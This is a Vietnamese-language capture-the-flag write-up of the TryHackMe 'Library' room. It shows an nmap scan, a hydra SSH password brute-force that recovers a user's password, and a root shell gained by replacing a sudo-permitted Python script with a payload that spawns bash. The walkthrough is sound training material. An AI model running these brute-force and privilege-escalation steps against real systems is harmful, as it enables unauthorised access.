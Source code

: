 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Library"
date: "2022-03-15"
tags: [
    "tryhackme",
    "web",
    "linux",
    "hydra",
    "brute-force",
    "python",
    "ssh",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2022-03-15-THM-Library.webp)

Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | Library](https://tryhackme.com/room/bsidesgtlibrary)
## Reconnaissance

Vẫn như thông thường, việc đầu tiên cần làm là quét các cổng đang mở trên máy chủ mục tiêu

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c42fc34767063204ef92918e0587d5dc (RSA)
|   256 689213ec9479dcbb7702da99bfb69db0 (ECDSA)
|_  256 43e824fcd8b8d3aac248089751dc5b7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Xem qua web với port 80 

Tôi có 1 cái tên ở đây *meliodas*. Khi scan port phía trên tôi cũng có 1 path là *robots.txt*

Ngay khi nhìn thấy rockyou thì tôi nghĩ ngay đến brute-force (thực ra thì ai cũng nghĩ đến thôi). Tôi sẽ thử brute-force với username *meliodas* 

```python
┌──(neo㉿kali)-[~/THM-Library]
└─$ hydra -l meliodas -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-70.txt ssh://10.10.192.105
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-04 04:33:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 42660 login tries (l:1/p:42660), ~2667 tries per task
[DATA] attacking ssh://10.10.192.105:22/
[STATUS] 128.00 tries/min, 128 tries in 00:01h, 42534 to do in 05:33h, 14 active
[22][ssh] host: 10.10.192.105   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-04 04:35:35
```

Thử login ssh 

```python
┌──(neo㉿kali)-[~/THM-Library]
└─$ ssh meliodas@10.10.192.105                                                                            
The authenticity of host '10.10.192.105 (10.10.192.105)' can't be established.
ED25519 key fingerprint is SHA256:Ykgtf0Q1wQcyrBaGkW4BEBf3eK/QPGXnmEMgpaLxmzs.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.192.105' (ED25519) to the list of known hosts.
meliodas@10.10.192.105's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ 
```

## Privilege escalation

`sudo -l`

```python
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
meliodas@ubuntu:~$ 
```

`cat bak.py`

```python
meliodas@ubuntu:~$ cat bak.py 
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
meliodas@ubuntu:~$
```

Do file này sở hữu bởi *root* nên tôi không có quyền sửa file này. Tôi sẽ xóa nó đi và tạo 1 file bak.py khác chưa payload python để leo quyền.

```python
meliodas@ubuntu:~$ rm /home/meliodas/bak.py
meliodas@ubuntu:~$ echo 'import os;os.system("/bin/bash")' > /home/meliodas/bak.py
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py 
root@ubuntu:~# 
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# ls /root/
root.txt
root@ubuntu:~# 
```
